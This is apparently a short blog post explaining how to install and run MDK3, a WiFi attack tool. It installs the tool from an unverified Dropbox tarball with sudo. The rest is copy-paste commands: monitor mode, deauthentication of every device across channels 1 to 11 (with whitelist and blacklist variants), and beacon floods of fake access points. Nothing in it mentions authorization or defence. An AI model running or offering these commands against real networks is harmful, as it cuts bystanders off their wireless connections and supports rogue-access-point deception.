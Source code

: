 ```yaml
---
layout: post
title: Installation and Basic Usage of MDK3
excerpt: A how-to for the installation and basic usage of mdk3.
---
```

###Installation

Use the following commands

```bash
sudo apt-get install iw
wget https://dl.dropboxusercontent.com/u/23279035/mdk3-v6.tar.bz2
tar -xjf mdk3-v6.tar.bz2
cd mdk3-v6
sudo make && sudo make install
rm -rf mdk3*
```

###Usage

####Set Wifi Adaptor into Monitor Mode

Use the following commands

	sudo iw phy phy0 interface add mon0 type monitor
	sudo iw dev wlan0 del

####Deauthentication

Deauth all devices on every channel

	sudo mdk3 mon0 d -c 1,2,3,4,5,6,7,8,9,10,11

Deauth via whitelist (deauth all devices excluding those on the list)

	sudo mdk3 mon0 d -w /home/username/whitelist.txt -c 1,2,3,4,5,6,7,8,9,10,11

Deauth via blacklist (deauth only devices on the list)

	sudo mdk3 mon0 d -b /home/username/blacklist.txt -c 1,2,3,4,5,6,7,8,9,10,11

###Beacon Flood Mode

Broadcast a random list of fake access points

	sudo mdk3 mon0 b

Broadcast a certain access point by name

	sudo mdk3 mon0 b -n example_network

Broadcast a list of access points from a file

	sudo mdk3 mon0 b -f /home/user/example_network_names.txt

For more information use `sudo mdk3 --fullhelp`

###Set Wifi Card Back to Managed Mode

Use the following commands

	sudo iw phy phy0 interface add wlan0 type managed
	sudo sudo iw dev mon0 del

###*Alternative Method:* Setting Wlan into Monitor Mode

Set interface into monitor mode:

	sudo ifconfig wlan0 down;sudo iwconfig wlan0 mode monitor;sudo ifconfig wlan0 up
Set interface into managed mode:

	sudo ifconfig wlan0 down;sudo iwconfig wlan0 mode managed;sudo ifconfig wlan0 up